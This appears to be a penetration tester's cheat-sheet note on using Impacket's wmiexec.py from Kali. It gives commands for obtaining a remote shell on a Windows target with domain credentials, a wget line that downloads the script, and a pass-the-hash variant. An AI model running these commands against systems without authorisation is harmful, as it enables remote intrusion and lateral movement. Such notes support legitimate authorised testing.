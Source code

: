 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```wget - kali
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```

#### Shell with wmi.py
```python - kali
wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
wmiexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```

